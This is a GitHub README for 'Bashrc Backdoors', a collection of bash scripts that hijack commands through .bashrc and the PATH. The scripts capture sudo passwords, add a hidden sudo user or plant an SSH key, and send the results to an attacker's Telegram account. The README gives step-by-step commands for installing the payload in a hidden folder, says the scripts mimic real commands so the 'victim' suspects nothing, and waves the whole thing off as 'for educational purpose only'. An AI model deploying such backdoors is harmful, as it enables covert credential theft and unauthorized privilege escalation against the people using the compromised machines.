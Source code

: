# .Bashrc Backdoors
Bashrc Backdoors are a collection of bash scripts that can be used to take advantage of the .bashrc file (also compatible with .zshrc and others) as a payload in any shell in order to trick the user and escalate privileges or getting various passwords. Then all loots will be send via Telegram on the associated account.

Each script has a different function such as getting sudo password or create a new user with sudo privilege, get SSH or GitHub password in function of your needs. And all scripts are designed to mimic real shell function behavior. This means that the person who is using the shell will not suspect anything.

![Bashrc backdoors logo](https://i.ibb.co/3RMHbcJ/bashrc-backdoors-logo.png)

For the moment only 3 scripts are available, `sudo-telegram.sh`, `adduser-telegram.sh`, `addpubkey-telegram.sh`. And 2 others are coming soon `github-telegram.sh` and `ssh-telegram.sh`.

### Scripts Description

* `sudo-telegram.sh`: Grab and send the sudo password via telegram once the sudo command is used. 
* `adduser-telegram.sh`: Create a new user on the host machine with sudo privilege and send all information via telegram once the sudo command is used.
* `addpubkey-telegram.sh`: Copy and append the id_rsa.pub key defined in the script into ~/.ssh/authorized_keys, then a confirmation message will be send via telegram once the sudo command is used.
* `github-telegram.sh`: Will, grab and send GitHub username and password via telegram once the commands git push or git pull is used.
* `ssh-telegram.sh`: Will, grab and send SSH information via telegram when the user wants to connect to another server using SSH command.

### Requirement

* Telegram account (API key and chatID)
* A target host :) (Tested on CentOs 7 and Ubuntu 20.04)

### How to use

The first thing to do to use any Bashrc Backdoors script is to add Telegram API information into it.
```bash
telegramApiToken="<API:TOKEN>"
telegramChatID="<chatID>"
```
Note*: If your are using `addpubkey-telegram.sh` your SSH public key will be also required.

Once Telegram information added, let's create a hidden folder and import the bash script into it. (For the following example, I used the script `sudo-telegram.sh` but it's the same for all).
 ```bash
mkdir ~/.payload
#Copy the content of sudo-telegram.sh in ~/.payload/sudo.
vi ~/.payload/sudo
```

The next step is to make the bash script executable.
```bash
chmod a+x ~/.payload/sudo
```
And the last step is to load our bash script in .bashrc file.
 ```bash
echo "export PATH=~/.payload:$PATH" >> ~/.bashrc
```
Note*:  Adapt the command according to the shell used (.zshrc, etc..).

That's all! If the payload is correctly injected into the .bachrc file, then, the last thing to do is to wait for the victim to login and use the sudo command to receive the sudo password via Telegram.

### Proof of concept
(POC using the bash script `sudo-telegram.sh` on CentOS 7)

[![Video POC ssh-telegram.sh](https://i.ibb.co/7gXHL9q/500px-youtube-social-play.png)](https://www.youtube.com/watch?v=FJM50rUQydg)


### Contribution
If you have any funny scripting ideas or simply want to make improvements in the existing scripts, feel free to add your pull request!

### Note
FOR EDUCATIONAL PURPOSE ONLY.
